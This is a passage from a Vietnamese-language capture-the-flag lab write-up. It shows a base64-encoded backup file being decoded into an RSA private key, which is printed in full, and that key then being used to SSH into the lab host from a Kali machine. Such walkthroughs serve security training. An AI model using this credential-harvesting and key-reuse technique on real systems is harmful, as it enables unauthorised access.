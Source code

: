 Nó đã được mã hóa base64. Phải thêm 1 bước decode nữa

```python
will@watcher:/home/will$ cat /opt/backups/key.b64 | base64 -d
cat /opt/backups/key.b64 | base64 -d
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAzPaQFolQq8cHom9mssyPZ53aLzBcRyBw+rysJ3h0JCxnV+aG
opZdcQz01YOYdjYIaZEJmdcPVWQp/L0uc5u3igoiK1uiYMfw850N7t3OX/erdKF4
jqVu3iXN9doBmr3TuU9RJkVnDDuo8y4DtIuFCf92ZfEAJGUB2+vFON7q4KJsIxgA
nM8kj8NkFkFPk0d1HKH2+p7QP2HGZrf3DNFmQ7Tuja3zngbEVO7NXx3V3YOF9y1X
eFPrvtDQV7BYb6egklafs4m4XeUO/csM84I6nYHWzEJ5zpcSrpmkDHxC8yH9mIVt
dSelabW2fuLAi51UR/2wNqL13hvGglpePhKQgQIDAQABAoIBAHmgTryw22g0ATnI
9Z5geTC5oUGjZv7mJ2UDFP2PIwxcNS8aIwbUR7rQP3F8V7q+MZvDb3kU/4pil+/c
q3X7D50gikpEZEUeIMPPjPcUNGUKaXoaX5n2XaYBtQiRR6Z1wvASO0uEn7PIq2cz
BQvcRyQ5rh6sNrNiJQpGDJDE54hIigic/GucbynezYya8rrIsdWM/0SUl9JknI0Q
TQOi/X2wfyryJsm+tYcvY4ydhChK+0nVTheciUrV/wkFvODbGMSuuhcHRKTKc6B6
1wsUA85+vqNFrxzFY/tW188W00gy9w51bKSKDxboti2gdgmFolpnFw+t0QRB5RCF
AlQJ28kCgYEA6lrY2xyeLh/aOBu9+Sp3uJknIkObpIWCdLd1xXNtDMAz4OqbrLB5
fJ/iUcYjwOBHt3NNkuUm6qoEfp4Gou14yGzOiRkAe4HQJF9vxFWJ5mX+BHGI/vj2
Nv1sq7PaIKq4pkRBzR6M/ObD7yQe78NdlQvLnQTlWp4njhjQoHOsovsCgYEA3+TE
7QR77yQ8l1iGAFYRXIzBgp5eJ2AAvVpWJuINLK5lmQ/E1x2K98E73CpQsRDG0n+1
vp4+Y8J0IB/tGmCf7IPMeiX80YJW7Ltozr7+sfbAQZ1Ta2o1hCalAQyIk9p+EXpI
UbBVnyUC1XcvRfQvFJyzgccwExEr6glJKOj64bMCgYEAlxmx/jxKZLTWzxxb9V4D
SPs+NyJeJMqMHVL4VTGh2vnFuTuq2cIC4m53zn+xJ7ezpb1rA85JtD2gnj6nSr9Q
A/HbjJuZKwi8uebquizot6uFBzpouPSuUzA8s8xHVI6edV1HC8ip4JmtNPAWHkLZ
gLLVOk0gz7dvC3hGc12BrqcCgYAhFji34iLCi3Nc1lsvL4jvSWnLeMXnQbu6P+Bd
bKiPwtIG1Zq8Q4Rm6qqC9cno8NbBAtiD6/TCX1kz6iPq8v6PQEb2giijeYSJBYUO
kJEpEZMF308Vn6N6/Q8DYavJVc+tm4mWcN2mYBzUGQHmb5iJjkLE2f/TwYTg2DB0
mEGDGwKBgQCh+UpmTTRx4KKNy6wJkwGv2uRdj9rta2X5pzTq2nEApke2UYlP5OLh
/6KHTLRhcp9FmF9iKWDtEMSQ8DCan5ZMJ7OIYp2RZ1RzC9Dug3qkttkOKAbccKn5
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRsM1bOEqjFdZgv6SA==
-----END RSA PRIVATE KEY-----
```

Sao chép key này về máy và login ssh

```python                                                                                                                        
┌──(root㉿kali)-[/home/kali]
└─# ssh -i id_rsa 10.10.80.186                                                                                                                                                                                                                        
The authenticity of host '10.10.80.186 (10.10.80.186)' can't be established.
ED25519 key fingerprint is SHA256:/60sf9gTocupkmAaJjtQJTxW1ZnolBZckE6KpPiQi5s.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.80.186' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul 28 12:10:25 UTC 2023

  System load:  0.0                Processes:             118
  Usage of /:   22.5% of 18.57GB   Users logged in:       0
  Memory usage: 52%                IP address for eth0:   10.10.80.186
  Swap usage:   0%                 IP address for lxdbr0: 10.14.179.1


33 packages can be updated.
0 updates are security updates.


Last login: Thu Dec  3 03:25:38 2020
```